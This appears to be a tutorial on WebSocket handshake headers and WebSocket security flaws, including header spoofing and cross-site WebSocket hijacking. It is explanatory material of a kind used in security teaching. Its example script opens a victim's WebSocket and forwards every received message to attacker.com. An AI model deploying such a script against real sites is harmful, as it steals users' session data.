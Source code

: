 # WebSocket Handshake and Vulnerabilities

## WebSocket Handshake Features

WebSocket technology establishes a full-duplex communication channel over a single, long-lived connection. The WebSocket handshake process involves several key HTTP headers:

- **Connection and Upgrade**: These headers in both the request and response signal that the connection should be upgraded to a WebSocket.
  
- **Sec-WebSocket-Version**: This request header indicates the WebSocket protocol version the client wishes to use, typically version 13.

- **Sec-WebSocket-Key**: A Base64-encoded random value is sent in this request header. It should be generated anew for each handshake to ensure the security of the WebSocket connection.

- **Sec-WebSocket-Accept**: The response header contains a hash generated from the value submitted in the `Sec-WebSocket-Key`, concatenated with a GUID specified in the WebSocket protocol. This verification step helps prevent misleading responses from misconfigured servers or caching proxies.

## Exploiting WebSocket Vulnerabilities

WebSocket connections can introduce several security risks if not properly configured and handled:

### Misplaced Trust in HTTP Headers

WebSockets may inherit security flaws common in HTTP, such as improper reliance on headers like `X-Forwarded-For` for security decisions.
These headers can be easily spoofed, leading to inaccurate security validations.

### CSRF in WebSockets

Cross-Site Request Forgery (CSRF) can be exploited in WebSocket connections if they rely solely on session cookies without additional verification. Below is an example of how a CSRF attack could be mounted on a WebSocket:

```
<script>
    var ws = new WebSocket('wss://your-websocket');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
```
In this example, the WebSocket connection is abused to send data received from the WebSocket to an attacker-controlled site whenever a message is received.
